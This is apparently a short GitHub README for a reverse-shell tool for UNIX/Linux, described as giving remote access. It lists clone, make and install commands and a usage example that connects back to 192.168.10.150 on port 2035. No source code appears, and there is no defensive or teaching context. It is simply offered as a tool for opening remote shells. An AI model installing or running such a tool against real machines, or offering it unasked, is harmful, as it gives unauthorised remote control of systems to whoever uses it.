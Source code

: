 Description
===========

	The reverse shell for remote access.

Requests
========
	OS: UNIX/LINUX

install
=======

	git clone https://github.com/ErilinAleksei/Shell.git
	cd /Shell/reverseShell
	make makefile
	make install

Using
=====

	EXAMPLES:
		reverseShell 192.168.10.150 2035
